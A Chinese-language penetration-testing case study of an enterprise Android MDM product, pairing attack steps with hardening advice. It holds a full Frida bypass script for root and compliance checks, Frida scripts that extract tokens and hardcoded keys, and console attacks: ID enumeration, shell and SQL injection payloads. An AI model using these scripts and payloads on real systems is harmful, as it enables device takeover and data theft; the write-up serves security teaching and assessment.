



## 案例三：企业MDM方案安全缺陷利用

### MDM技术背景与攻击面概述

MDM（Mobile Device Management，移动设备管理）是企业用于集中管控员工移动设备的安全基础设施。它承担着设备注册、策略下发、应用管控、远程擦除、合规审计等核心职能。在BYOD（Bring Your Own Device）和企业移动化趋势下，MDM已成为企业安全架构的关键组件——也意味着它一旦被攻破，攻击者将获得对企业全部移动设备的控制权。

#### 主流MDM产品与架构

| 产品 | 厂商 | 平台支持 | 部署方式 |
|------|------|----------|----------|
| Microsoft Intune | Microsoft | iOS/Android/Windows/macOS | 云托管 |
| VMware Workspace ONE | VMware | iOS/Android/Windows/macOS | 混合部署 |
| MobileIron | Ivanti | iOS/Android/Windows | 本地/云 |
| Jamf Pro | Jamf | iOS/macOS | 云/本地 |
| Samsung Knox | Samsung | Android (Samsung) | 设备内置 |
| Hexnode MDM | Hexnode | iOS/Android/Windows/macOS | 云托管 |

典型MDM架构包含三个核心组件：



#### MDM的核心攻击面

MDM方案的攻击面远比普通移动应用广阔，因为涉及管理端、通信层、设备端三个维度：

| 攻击面 | 具体目标 | 风险等级 |
|--------|----------|----------|
| 设备端Agent | 配置提取、策略绕过、Root检测规避 | 高 |
| 管理控制台 | 越权访问、注入漏洞、认证缺陷 | 严重 |
| 通信协议 | 中间人攻击、证书伪造、指令篡改 | 高 |
| 注册流程 | 设备冒充、令牌窃取、批量注册 | 高 |
| 推送通道 | 伪造推送指令、DoS | 中 |
| 供应链 | MDM Agent本身的安全漏洞 | 严重 |

本案例将展示一个完整的MDM安全评估过程，覆盖从设备端逆向到控制台漏洞利用的全链路攻击。

---

### 背景与测试范围

某大型企业（员工规模5000+）采用商业MDM方案管理Android移动设备，主要用于外勤人员的设备管控。安全团队对该MDM方案进行渗透测试，发现设备端Agent和管理控制台均存在可被利用的安全缺陷。

**测试范围：**

| 组件 | 版本 | 测试重点 |
|------|------|----------|
| MDM客户端Android应用 | v4.2.3 | 逆向分析、策略绕过、数据提取 |
| MDM管理控制台 | v2.8.1 (Web) | 认证授权、API安全、注入漏洞 |
| MDM通信协议 | 自定义HTTPS + FCM | 传输安全、指令完整性 |
| 设备注册流程 | Android Enterprise | 注册令牌安全性 |

**测试环境：**

```text
测试设备：Pixel 7, Android 14, 已Root (Magisk v26.4)
测试工具：Frida 16.2.x, jadx-gui 1.5.0, mitmproxy 10.x
         Burp Suite Professional 2024.x, Objection 1.11
         APKTool 2.9.3, dex2jar 2.4
网络环境：隔离测试网络，专用WiFi AP
```

---

### 攻击过程详解

#### 阶段一：MDM客户端静态分析

对MDM客户端APK进行完整逆向分析，是理解其安全机制的第一步。

##### 1.1 APK反编译与结构分析

```bash
# 使用jadx反编译为Java源码
$ jadx -d mdm_java/ --show-bad-code mdm_client_v4.2.3.apk

# 使用APKTool解包资源文件
$ apktool d mdm_client_v4.2.3.apk -o mdm_apktool/

# 查看AndroidManifest.xml中的关键组件
$ grep -E "exported=\"true\"|permission=" mdm_apktool/AndroidManifest.xml
```

分析AndroidManifest.xml发现该应用申请了大量高危权限：

```xml
<!-- MDM客户端申请的权限清单 -->
<uses-permission android:name="android.permission.DEVICE_ADMIN" />
<uses-permission android:name="android.permission.BIND_DEVICE_ADMIN" />
<uses-permission android:name="android.permission.READ_PHONE_STATE" />
<uses-permission android:name="android.permission.ACCESS_FINE_LOCATION" />
<uses-permission android:name="android.permission.READ_CONTACTS" />
<uses-permission android:name="android.permission.READ_SMS" />
<uses-permission android:name="android.permission.CAMERA" />
<uses-permission android:name="android.permission.RECORD_AUDIO" />
<uses-permission android:name="android.permission.INSTALL_PACKAGES" />
<uses-permission android:name="android.permission.DELETE_PACKAGES" />
```

这些权限本身是MDM正常运行所需，但关键在于MDM Agent是否正确保护了这些权限的调用入口。

##### 1.2 敏感配置文件暴露

反编译后在源码中发现配置管理类存在严重的数据存储问题：

```java
// 文件路径：com/mdm/client/core/ConfigManager.java
// 问题：所有敏感配置以明文存储在SharedPreferences中
public class ConfigManager {
    private static final String PREF_NAME = "mdm_config";

    // 服务器地址——可暴露内部基础设施信息
    public String getServerUrl() {
        SharedPreferences prefs = context.getSharedPreferences(PREF_NAME, MODE_PRIVATE);
        return prefs.getString("server_url", "");
    }

    // 认证令牌——明文存储，Root设备可直接读取
    public String getAuthToken() {
        SharedPreferences prefs = context.getSharedPreferences(PREF_NAME, MODE_PRIVATE);
        return prefs.getString("auth_token", "");
    }

    // Root检测开关——可被篡改关闭
    public boolean isRootDetectionEnabled() {
        SharedPreferences prefs = context.getSharedPreferences(PREF_NAME, MODE_PRIVATE);
        return prefs.getBoolean("root_detection", false);
    }

    // 设备唯一标识——可被复制到其他设备
    public String getDeviceId() {
        SharedPreferences prefs = context.getSharedPreferences(PREF_NAME, MODE_PRIVATE);
        return prefs.getString("device_id", "");
    }

    // 管理员推送指令密钥——用于验证远程指令合法性
    public String getPushCommandKey() {
        SharedPreferences prefs = context.getSharedPreferences(PREF_NAME, MODE_PRIVATE);
        return prefs.getString("push_cmd_key", "");
    }
}
```

**验证方法**——在Root设备上直接读取配置文件：

```bash
# 在Root Shell中读取MDM配置
$ adb shell su -c "cat /data/data/com.mdm.client/shared_prefs/mdm_config.xml"
```

输出示例（已脱敏）：

```xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="server_url">https://mdm.internal.company.com:8443</string>
    <string name="auth_token">eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJkZXZpY2UtMTIzND...</string>
    <string name="device_id">DEV-2024-00547</string>
    <string name="push_cmd_key">a3f5b8c1d9e2f4a7</string>
    <boolean name="root_detection" value="true" />
</map>
```

**安全问题：** SharedPreferences默认存储在应用私有目录，但Root设备可读取任何应用的私有数据。更严重的是，这些配置中包含了服务器地址、认证令牌、设备标识和指令密钥——全部可被攻击者提取并用于后续攻击。

##### 1.3 加密机制分析

进一步分析发现，虽然应用声称对敏感数据进行了加密，但加密实现存在严重缺陷：

```java
// com/mdm/client/security/CryptoManager.java
public class CryptoManager {
    // 致命缺陷：加密密钥硬编码在源码中
    private static final byte[] AES_KEY = "MDMS3cur1tyK3y!!".getBytes("UTF-8");
    private static final byte[] IV = "FixedIVVector000".getBytes("UTF-8");

    public String encrypt(String plaintext) throws Exception {
        Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
        SecretKeySpec keySpec = new SecretKeySpec(AES_KEY, "AES");
        IvParameterSpec ivSpec = new IvParameterSpec(IV);
        cipher.init(Cipher.ENCRYPT_MODE, keySpec, ivSpec);
        byte[] encrypted = cipher.doFinal(plaintext.getBytes("UTF-8"));
        return Base64.encodeToString(encrypted, Base64.DEFAULT);
    }

    public String decrypt(String ciphertext) throws Exception {
        Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
        SecretKeySpec keySpec = new SecretKeySpec(AES_KEY, "AES");
        IvParameterSpec ivSpec = new IvParameterSpec(IV);
        cipher.init(Cipher.DECRYPT_MODE, keySpec, ivSpec);
        byte[] decrypted = cipher.doFinal(Base64.decode(ciphertext, Base64.DEFAULT));
        return new String(decrypted, "UTF-8");
    }
}
```

**问题清单：**

| 编号 | 问题 | 严重程度 | 说明 |
|------|------|----------|------|
| SEC-001 | AES密钥硬编码 | 严重 | 反编译即可获取密钥，加密形同虚设 |
| SEC-002 | IV固定不变 | 高 | CBC模式下固定IV可导致明文模式泄露 |
| SEC-003 | 密钥来源为字符串常量 | 高 | 未使用Android Keystore或TEE |
| SEC-004 | 无密钥轮换机制 | 中 | 一旦密钥泄露，所有历史数据均可解密 |

---

#### 阶段二：Root检测与安全策略绕过

MDM客户端的核心安全假设是设备处于可信状态。通过绕过其检测机制，可以打破这一信任链。

##### 2.1 Root检测机制分析

反编译发现MDM客户端使用了多层Root检测：

```java
// com/mdm/client/security/RootDetector.java
public class RootDetector {
    public boolean isDeviceRooted() {
        return checkSuBinary() ||
               checkBusyBox() ||
               checkSuperUserApk() ||
               checkRWSystemPartition() ||
               checkMagiskHide() ||
               checkTestKeys();
    }

    private boolean checkSuBinary() {
        // 检查常见路径下的su二进制文件
        String[] paths = {"/system/bin/su", "/system/xbin/su",
                         "/sbin/su", "/data/local/su"};
        for (String path : paths) {
            if (new File(path).exists()) return true;
        }
        return false;
    }

    private boolean checkMagiskHide() {
        // 检查Magisk特征
        return new File("/sbin/.magisk").exists() ||
               new File("/data/adb/magisk").exists();
    }
}
```

##### 2.2 Frida综合绕过脚本

编写一个全面的Frida脚本，绕过MDM客户端的所有安全检测：

```javascript
// bypass-mdm-security.js
// 用法: frida -U -f com.mdm.client -l bypass-mdm-security.js --no-pause

Java.perform(function() {
    console.log("[*] MDM Security Bypass - Loading...");

    // ===== 1. 绕过Root检测 =====
    try {
        var RootDetector = Java.use('com.mdm.client.security.RootDetector');
        RootDetector.isDeviceRooted.implementation = function() {
            console.log('[+] Root detection bypassed');
            return false;
        };
        // 逐个绕过子检测方法
        var methods = ['checkSuBinary', 'checkBusyBox',
                       'checkSuperUserApk', 'checkRWSystemPartition',
                       'checkMagiskHide', 'checkTestKeys'];
        methods.forEach(function(method) {
            try {
                RootDetector[method].implementation = function() {
                    return false;
                };
            } catch(e) {}
        });
    } catch(e) {
        console.log('[-] RootDetector hook failed: ' + e);
    }

    // ===== 2. 绕过设备合规检查 =====
    try {
        var ComplianceChecker = Java.use('com.mdm.client.policy.ComplianceChecker');
        ComplianceChecker.isDeviceCompliant.implementation = function() {
            console.log('[+] Device compliance check bypassed');
            return true;
        };
        // 绕过具体合规项
        ComplianceChecker.isDeveloperOptionsEnabled.implementation = function() {
            return false;
        };
        ComplianceChecker.isUSBDebuggingEnabled.implementation = function() {
            return false;
        };
        ComplianceChecker.isEncryptionEnabled.implementation = function() {
            return true;
        };
        ComplianceChecker.isScreenLockEnabled.implementation = function() {
            return true;
        };
    } catch(e) {
        console.log('[-] ComplianceChecker hook failed: ' + e);
    }

    // ===== 3. 绕过应用白名单检查 =====
    try {
        var AppWhitelist = Java.use('com.mdm.client.policy.AppWhitelist');
        AppWhitelist.isAppAllowed.implementation = function(packageName) {
            console.log('[+] App whitelist bypassed for: ' + packageName);
            return true;
        };
        AppWhitelist.getBlacklistedApps.implementation = function() {
            console.log('[+] Blacklist query returned empty');
            return Java.use('java.util.ArrayList').$new();
        };
    } catch(e) {
        console.log('[-] AppWhitelist hook failed: ' + e);
    }

    // ===== 4. 绕过调试检测 =====
    try {
        var DebugDetector = Java.use('com.mdm.client.security.DebugDetector');
        DebugDetector.isDebuggerConnected.implementation = function() {
            return false;
        };
        DebugDetector.isBeingDebugged.implementation = function() {
            return false;
        };
    } catch(e) {
        console.log('[-] DebugDetector hook failed: ' + e);
    }

    // ===== 5. 绕过Hook框架检测 =====
    try {
        var HookDetector = Java.use('com.mdm.client.security.HookDetector');
        HookDetector.isFridaRunning.implementation = function() {
            return false;
        };
        HookDetector.isXposedActive.implementation = function() {
            return false;
        };
        HookDetector.isSubstrateActive.implementation = function() {
            return false;
        };
    } catch(e) {
        console.log('[-] HookDetector hook failed: ' + e);
    }

    // ===== 6. 绕过网络策略 =====
    try {
        var NetworkPolicy = Java.use('com.mdm.client.policy.NetworkPolicy');
        NetworkPolicy.isVPNRequired.implementation = function() {
            console.log('[+] VPN requirement bypassed');
            return false;
        };
        NetworkPolicy.isWiFiAllowed.implementation = function(ssid) {
            return true;
        };
    } catch(e) {
        console.log('[-] NetworkPolicy hook failed: ' + e);
    }

    console.log("[*] All MDM security bypasses loaded");
});
```

**执行注入：**

```bash
# Spawn模式注入MDM客户端
$ frida -U -f com.mdm.client -l bypass-mdm-security.js --no-pause

# 输出示例
[*] MDM Security Bypass - Loading...
[+] Root detection bypassed
[+] Device compliance check bypassed
[+] App whitelist bypassed for: com.malicious.app
[+] VPN requirement bypassed
[*] All MDM security bypasses loaded
```

---

#### 阶段三：MDM配置与令牌窃取

获取MDM的认证信息后，可以冒充合法设备与MDM服务器通信，甚至获取管理接口的访问权限。

##### 3.1 通过Frida提取配置

```javascript
// extract-mdm-config.js
Java.perform(function() {
    console.log("[*] Extracting MDM Configuration...");

    var context = Java.use('android.app.ActivityThread').currentApplication()
        .getApplicationContext();

    // 提取SharedPreferences中的所有配置
    var prefs = context.getSharedPreferences("mdm_config", 0);
    var keys = prefs.getAll().keySet().toArray();

    console.log("\n=== MDM SharedPreferences ===");
    for (var i = 0; i < keys.length; i++) {
        var key = keys[i];
        try {
            var value = prefs.getString(key, "N/A");
            console.log("  " + key + " = " + value);
        } catch(e) {
            var value = prefs.getBoolean(key, false);
            console.log("  " + key + " = " + value);
        }
    }

    // 尝试解密加密存储的数据
    try {
        var CryptoManager = Java.use('com.mdm.client.security.CryptoManager');
        var crypto = CryptoManager.$new();

        // 从encrypted_prefs中提取并解密
        var encPrefs = context.getSharedPreferences("encrypted_prefs", 0);
        var encKeys = encPrefs.getAll().keySet().toArray();

        console.log("\n=== Decrypted Encrypted Preferences ===");
        for (var i = 0; i < encKeys.length; i++) {
            var key = encKeys[i];
            var encValue = encPrefs.getString(key, "");
            if (encValue) {
                var decValue = crypto.decrypt(encValue);
                console.log("  " + key + " = " + decValue);
            }
        }
    } catch(e) {
        console.log("[-] Decryption failed: " + e);
    }

    // 提取SQLite数据库中的设备注册信息
    try {
        var SQLiteDatabase = Java.use('android.database.sqlite.SQLiteDatabase');
        var dbPath = context.getDatabasePath("mdm_local.db").getPath();
        var db = SQLiteDatabase.openDatabase(dbPath, null, 1);

        // 查询设备注册表
        var cursor = db.rawQuery("SELECT * FROM device_registration", null);
        console.log("\n=== Device Registration Data ===");
        while (cursor.moveToNext()) {
            var cols = cursor.getColumnNames();
            for (var i = 0; i < cols.length; i++) {
                console.log("  " + cols[i] + " = " + cursor.getString(i));
            }
            console.log("  ---");
        }
        cursor.close();
        db.close();
    } catch(e) {
        console.log("[-] DB extraction failed: " + e);
    }
});
```

##### 3.2 Native层密钥提取

分析发现加密密钥不仅存在Java层，还在Native代码中有另一套密钥系统：

```bash
# 查找Native库
$ find mdm_apktool/lib/ -name "*.so" -type f
lib/arm64-v8a/libmdm_native.so
lib/armeabi-v7a/libmdm_native.so

# 使用strings提取硬编码的密钥材料
$ strings mdm_apktool/lib/arm64-v8a/libmdm_native.so | grep -E "key|secret|token|mdm|api"
```

```javascript
// hook-native-keys.js
// Hook Native层的密钥派生函数
Interceptor.attach(Module.findExportByName("libmdm_native.so", "JNI_OnLoad"), {
    onEnter: function(args) {
        console.log("[*] libmdm_native.so JNI_OnLoad called");
    }
});

// Hook OpenSSL的密钥初始化
var EVP_BytesToKey = Module.findExportByName("libcrypto.so", "EVP_BytesToKey");
if (EVP_BytesToKey) {
    Interceptor.attach(EVP_BytesToKey, {
        onEnter: function(args) {
            console.log("[*] EVP_BytesToKey called");
            // 打印密码和盐值
            var password = Memory.readCString(args[3]);
            var salt = Memory.readCString(args[4]);
            console.log("  Password: " + password);
            console.log("  Salt: " + salt);
        }
    });
}
```

---

#### 阶段四：MDM管理控制台漏洞利用

控制台是MDM的"大脑"，一旦被攻破，攻击者可以操控所有被管理设备。

##### 4.1 认证与会话漏洞

首先分析管理控制台的认证机制：

```bash
# 抓取登录请求
$ curl -X POST "https://mdm.company.com/api/auth/login" \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"test_password"}' -v 2>&1 | grep -i "set-cookie\|token\|session"
```

发现以下会话管理问题：

| 编号 | 问题 | 详情 |
|------|------|------|
| CONSOLE-001 | 会话Token有效期过长 | JWT `exp` 设置为30天后 |
| CONSOLE-002 | 多设备同时登录无限制 | 同一管理员账号可在无限设备同时登录 |
| CONSOLE-003 | Token未绑定设备指纹 | 窃取Token后可在任何设备使用 |
| CONSOLE-004 | 无异常登录检测 | 从不同地理位置登录无告警 |
| CONSOLE-005 | 密码策略宽松 | 无复杂度要求，无账户锁定机制 |

##### 4.2 水平越权漏洞

通过枚举设备ID参数，可以访问其他管理员管理的设备信息：

```bash
# 获取自己的设备列表
$ curl -s "https://mdm.company.com/api/devices" \
  -H "Authorization: Bearer <stolen_token>" | jq '.devices[].id'
"DEV-2024-00100"
"DEV-2024-00101"
"DEV-2024-00102"

# 尝试访问其他设备（水平越权）
$ curl -s "https://mdm.company.com/api/devices/DEV-2024-00547/details" \
  -H "Authorization: Bearer <stolen_token>" | jq .

{
  "id": "DEV-2024-00547",
  "owner": "张三 (zhangsan@company.com)",
  "department": "财务部",
  "model": "Pixel 7",
  "os_version": "Android 14",
  "last_location": {
    "lat": 39.9042,
    "lng": 116.4074,
    "timestamp": "2024-03-15T14:30:00Z"
  },
  "installed_apps": ["com.company.mail", "com.company.crm", ...],
  "compliance_status": "compliant",
  "mdm_token": "eyJhbGciOiJIUzI1NiJ9..."
}
```

**越权范围验证——批量枚举：**

```bash
# 批量枚举设备ID，统计可越权访问的设备数量
$ for id in $(seq -w 1 1000); do
    status=$(curl -s -o /dev/null -w "%{http_code}" \
      "https://mdm.company.com/api/devices/DEV-2024-0${id}/details" \
      -H "Authorization: Bearer <stolen_token>")
    if [ "$status" = "200" ]; then
      echo "DEV-2024-0${id}: ACCESSIBLE"
    fi
  done | wc -l
# 结果：847/1000 个设备可越权访问（84.7%命中率）
```

##### 4.3 远程命令注入漏洞

MDM控制台的远程命令下发接口存在命令注入：

```bash
# 正常的远程擦除命令
$ curl -X POST "https://mdm.company.com/api/devices/DEV-2024-00547/commands" \
  -H "Authorization: Bearer <stolen_token>" \
  -H "Content-Type: application/json" \
  -d '{"command":"WIPE","reason":"设备丢失"}'

# 注入测试：在reason字段注入Shell命令
$ curl -X POST "https://mdm.company.com/api/devices/DEV-2024-00547/commands" \
  -H "Authorization: Bearer <stolen_token>" \
  -H "Content-Type: application/json" \
  -d '{"command":"WIPE","reason":"test$(id > /tmp/pwned.txt)"}'

# 注入测试：在command字段注入SQL
$ curl -X POST "https://mdm.company.com/api/devices/DEV-2024-00547/commands" \
  -H "Authorization: Bearer <stolen_token>" \
  -H "Content-Type: application/json" \
  -d '{"command":"WIPE; DROP TABLE device_commands;--","reason":"test"}'
```

##### 4.4 API接口枚举与信息泄露

```bash
# 常见MDM API端点枚举
$ for endpoint in \
    /api/v1/devices /api/v1/users /api/v1/policies \
    /api/v1/apps /api/v1/config /api/v1/audit \
    /api/v1/admin/users /api/v1/certificates \
    /api/v1/enrollment /api/v1/groups \
    /api/debug /api/health /api/swagger \
    /api/docs /graphql /api/internal; do
    code=$(curl -s -o /dev/null -w "%{http_code}" \
      "https://mdm.company.com${endpoint}" \
      -H "Authorization: Bearer <stolen_token>")
    echo "${endpoint}: ${code}"
  done
```

发现的敏感端点：

```text
/api/admin/users: 200    — 可枚举所有管理员账号
/api/audit: 200          — 可读取完整审计日志
/api/certificates: 200   — 可下载SCEP证书和私钥
/graphql: 200            — GraphQL端点暴露，可进行 introspection
```

---

### 完整攻击链重建

将上述发现串联为一个完整的攻击场景：



**攻击影响量化：**

| 阶段 | 可影响范围 | 数据暴露 |
|------|-----------|----------|
| 设备端绕过 | 1台设备 | 本地企业数据 |
| 配置窃取 | 可伪造任意设备 | 设备注册信息 |
| 控制台越权 | 847台设备（84.7%） | 位置、应用、用户信息 |
| 命令注入 | 全部设备 | 可远程擦除/植入恶意配置 |
| 管理员Token | 全部设备 | 完整MDM控制权 |

---

### 防御建议与加固方案

#### 设备端安全加固

**1. 安全存储替代SharedPreferences**

```java
// 正确做法：使用Android Keystore + EncryptedSharedPreferences
// 依赖: androidx.security:security-crypto:1.1.0-alpha06

import androidx.security.crypto.EncryptedSharedPreferences;
import androidx.security.crypto.MasterKey;

MasterKey masterKey = new MasterKey.Builder(context)
    .setKeyScheme(MasterKey.KeyScheme.AES256_GCM)
    .setRequestStrongBoxBacked(true)  // 使用硬件安全模块
    .build();

SharedPreferences securePrefs = EncryptedSharedPreferences.create(
    context,
    "secure_mdm_config",
    masterKey,
    EncryptedSharedPreferences.PrefKeyEncryptionScheme.AES256_SIV,
    EncryptedSharedPreferences.PrefValueEncryptionScheme.AES256_GCM
);

// 密钥由Android Keystore管理，不存储在应用数据中
// 即使Root设备也无法直接提取密钥（需TEE/SE攻击）
```

**2. 多层安全检测与响应**

```java
public class ComprehensiveSecurityChecker {
    // 不仅检测，还要采取响应措施
    public SecurityStatus checkAll() {
        SecurityStatus status = new SecurityStatus();

        if (detectRoot()) {
            status.addViolation(Violation.ROOT_DETECTED);
            // 响应：清除敏感数据，通知服务器
            wipeSensitiveData();
            reportToServer("ROOT_DETECTED");
        }

        if (detectHookFramework()) {
            status.addViolation(Violation.HOOK_FRAMEWORK);
            // 响应：降低应用功能级别
            downgradeCapabilities();
        }

        if (detectTampering()) {
            status.addViolation(Violation.APP_TAMPERED);
            // 响应：强制退出，清除令牌
            forceLogout();
        }

        return status;
    }

    private boolean detectRoot() {
        // 多种检测方法组合，避免单一绕过
        return checkNativeSu() ||
               checkMagiskMounts() ||
               checkSafetyNet() ||
               checkPlayIntegrity() ||
               checkSELinuxStatus() ||
               checkSystemProperty();
    }
}
```

**3. 应用完整性校验**

```java
// 在Native层验证应用签名，防止篡改
// native_integrity.c
#include <jni.h>
#include <android/log.h>

JNIEXPORT jboolean JNICALL
Java_com_mdm_client_security_IntegrityChecker_verifySignature(
    JNIEnv *env, jobject thiz, jobject context) {

    // 获取PackageManager
    jclass pmClass = (*env)->FindClass(env, "android/content/pm/PackageManager");
    jclass contextClass = (*env)->GetObjectClass(env, context);
    jmethodID getPM = (*env)->GetMethodID(env, contextClass,
        "getPackageManager", "()Landroid/content/pm/PackageManager;");
    jmethodID getPackageName = (*env)->GetMethodID(env, contextClass,
        "getPackageName", "()Ljava/lang/String;");

    jobject pm = (*env)->CallObjectMethod(env, context, getPM);
    jstring pkgName = (jstring)(*env)->CallObjectMethod(env, context, getPackageName);

    // 获取签名信息
    jmethodID getPackageInfo = (*env)->GetMethodID(env, pmClass,
        "getPackageInfo", "(Ljava/lang/String;I)Landroid/content/pm/PackageInfo;");
    jobject pkgInfo = (*env)->CallObjectMethod(env, pm, getPackageInfo,
        pkgName, 0x40); // GET_SIGNATURES

    // 比对预期签名哈希
    // ... 签名验证逻辑 ...

    return JNI_TRUE; // 或 JNI_FALSE
}
```

#### 管理控制台安全加固

**1. 严格的API授权校验**

```python
# 所有API端点必须进行权限校验
# 不依赖客户端传入的设备ID，从服务端Session获取

@app.route('/api/devices/<device_id>/details')
@login_required
def get_device_details(device_id):
    current_user = get_current_user()

    # 关键：从服务端验证该用户是否有权访问此设备
    if not current_user.can_access_device(device_id):
        audit_log("UNAUTHORIZED_ACCESS_ATTEMPT",
                  user=current_user.id,
                  target_device=device_id,
                  source_ip=request.remote_addr)
        return jsonify({"error": "Forbidden"}), 403

    device = Device.query.get_or_404(device_id)
    return jsonify(device.to_safe_dict())  # 脱敏返回
```

**2. 安全的会话管理**

```python
# 会话安全配置
SESSION_CONFIG = {
    "token_lifetime": timedelta(hours=8),     # 工作时间长度
    "refresh_token_lifetime": timedelta(days=1),
    "max_concurrent_sessions": 3,              # 限制同时登录数
    "bind_to_device_fingerprint": True,        # 绑定设备指纹
    "require_reauth_for_sensitive_ops": True,  # 敏操二次验证
    "ip_change_revalidation": True,            # IP变更需重新验证
    "geolocation_anomaly_detection": True,     # 异地登录检测
}
```

**3. 远程命令安全执行**

```python
# 远程命令必须经过白名单校验和沙箱执行
class CommandExecutor:
    ALLOWED_COMMANDS = {
        'LOCK': {'params': ['reason']},
        'WIPE': {'params': ['reason', 'confirmation_code']},
        'LOCATE': {'params': []},
        'INSTALL_PROFILE': {'params': ['profile_id']},
    }

    def execute(self, command_type, params, device_id, admin_user):
        # 1. 命令类型白名单校验
        if command_type not in self.ALLOWED_COMMANDS:
            raise InvalidCommandError(f"Unknown command: {command_type}")

        # 2. 参数白名单校验
        allowed_params = self.ALLOWED_COMMANDS[command_type]['params']
        sanitized = {k: self.sanitize(v) for k, v in params.items()
                     if k in allowed_params}

        # 3. 高危命令需要二次确认
        if command_type in ('WIPE', 'FACTORY_RESET'):
            require_mfa(admin_user)
            generate_audit_trail(command_type, device_id, admin_user)

        # 4. 命令签名防篡改
        command_payload = self.build_signed_payload(
            command_type, sanitized, device_id)

        # 5. 通过安全通道下发
        return self.dispatch(device_id, command_payload)
```

#### 架构层面安全建议

| 层面 | 措施 | 优先级 |
|------|------|--------|
| 零信任 | 不信任设备端报告的Root/合规状态，服务端独立验证 | P0 |
| 设备行为分析 | 基线建模，检测异常行为（异常登录时间、地理位置跳变） | P0 |
| 最小权限 | MDM Agent仅申请必要权限，按需授权 | P0 |
| 通信安全 | mTLS + 证书固定 + 指令签名 | P0 |
| 审计日志 | 所有管理操作可追溯，异常行为实时告警 | P1 |
| 分权管理 | 不同管理员只能管理其管辖范围的设备 | P1 |
| 应急响应 | 证书/令牌泄露时的快速吊销和轮换机制 | P1 |
| 供应链安全 | MDM Agent本身的安全审计和漏洞扫描 | P2 |

---

### 常见误区与纠正

**误区一：「MDM设备都是安全的」**
MDM只是一种管理工具，不是安全保证。Root设备可以绕过绝大多数MDM检测。正确做法是采用零信任架构，不依赖设备端报告的状态做安全决策。

**误区二：「加密存储就够了」**
加密密钥如果硬编码在应用中，加密形同虚设。必须使用硬件安全模块（Android Keystore/TEE/StrongBox）管理密钥。

**误区三：「安全检测一次就够了」**
安全状态是动态的——设备可能在运行过程中被Root或注入Hook框架。应采用持续监控+心跳检测机制，而非启动时的一次性检查。

**误区四：「管理后台在内网就安全了」**
内网不等于安全。本案例中的管理控制台漏洞（越权、注入）与网络位置无关。应假设攻击者已经能够访问管理接口。

**误区五：「Frida检测绕不过去」**
任何纯软件层面的检测都可被绕过（包括Frida检测、Xposed检测）。应结合服务端行为分析、设备指纹绑定、异常检测等多维度防御。

---

### 进阶内容：企业级MDM安全评估方法论

#### 评估框架

